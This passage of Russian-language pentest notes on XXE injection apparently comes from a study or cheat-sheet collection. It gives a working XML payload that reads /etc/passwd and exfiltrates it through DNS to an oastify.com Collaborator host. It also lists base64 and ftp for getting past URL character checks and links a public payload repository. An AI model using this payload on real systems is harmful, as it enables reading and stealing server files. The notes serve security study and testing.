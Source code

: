 **Через DNS**
Если HTTP-запросы блокируются, можно использовать DNS:
```
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % exfiltrate "<!ENTITY &#x25; send SYSTEM 'http://%file;.xxx.oastify.com/'>">
  %exfiltrate;
]>

```
Содержимое файла будет включено в поддомен (например, `root:x:0:0:.xxx.oastify.com`), что Collaborator зафиксирует через DNS.


#### 4.9. Обход проверки символов, разрешенные для использования в URL

![[Pasted image 20250201123233.png]]

- Кодировка base64
- Протокол ftp
#### [репозиторий на гите с payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)